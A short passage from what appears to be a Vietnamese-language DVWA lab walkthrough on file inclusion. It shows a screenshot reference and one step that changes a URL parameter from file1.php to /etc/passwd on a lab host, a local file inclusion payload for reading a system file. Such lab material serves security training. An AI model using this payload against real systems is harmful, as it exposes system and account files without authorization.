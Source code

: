     ![alt](image/fi1.png)

  - Thực hiện sửa đường dẫn http://192.168.201.102/DVWA/vulnerabilities/fi/?page=file1.php thành
http://192.168.201.102/DVWA/vulnerabilities/fi/?page=/etc/passwd
